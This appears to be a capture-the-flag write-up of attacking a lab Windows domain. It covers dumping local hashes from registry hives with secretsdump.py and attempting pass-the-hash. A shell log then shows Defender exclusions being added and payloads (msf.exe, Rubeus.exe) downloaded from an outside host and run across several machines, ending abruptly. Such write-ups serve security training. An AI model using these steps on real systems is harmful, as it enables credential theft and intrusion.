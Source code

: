 We can lookup each of these settings to understand their purpose. The `AllowProtectedCreds` setting is described [here](https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.CredentialsSSP::AllowProtectedCreds), and explains that:

> When using credential delegation, devices provide an exportable version of credentials to the remote host. This exposes users to the risk of credential theft from attackers on the remote host.
>
> If you enable this policy setting, the host supports Restricted Admin or Remote Credential Guard mode.
>
> If you disable or do not configure this policy setting, Restricted Administration and Remote Credential Guard mode are not supported. User will always need to pass their credentials to the host.

The `RestrictedRemoteAdministration` and `RestrictedRemoteAdministrationType` settings are described [here](https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.CredentialsSSP::RestrictedRemoteAdministration) and essentially require the use of Remote Credential Guard. In short, Remote Credential Guard is a security feature that protects credentials over a Remote Desktop connection. It is designed to prevent credential theft attacks and works by sending all authentication requests back to the user's device. This will be important later.

#### Registry Dump

The registry dump contains the `sam`, `security`, and `system` registry hives. As mentioned previously, these hives contain sensitive information, such as credentials for local users. If you're an experienced pentester, you might recognize these files and immediately think of dumping the password hash for the local administrator and performing a [pass-the-hash attack](https://book.hacktricks.xyz/windows-hardening/ntlm#pass-the-hash). However, as we saw from the GPO settings, NTLM authentication is disabled, which means that we can't authenticate using the password hash.

### Foothold

#### Failed NTLM Authentication

As a demonstration of the GPO settings, let's try the usual method of dumping password hashes from the registry hives and authenticating using the password hash. We can use the `secretsdump.py` script from the [Impacket](https://github.com/fortra/impacket/tree/master/examples) toolkit to dump password hashes from the registry hives:

```bash
$ secretsdump.py -security security -system system -sam sam LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0xa0c824e58cc5808796e9ee369e239ca0
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Amministratore:500:aad3b435b51404eeaad3b435b51404ee:962f1689e7b6bfaf8fa7dbb1781fd2bc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[...]
```

We can then try to authenticate to the factory PC using [evil-winrm](https://github.com/Hackplayers/evil-winrm) and the `Amministratore` account with the password hash `962f1689e7b6bfaf8fa7dbb1781fd2bc`. As expected, we encounter an error when trying to authenticate using the password hash:


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      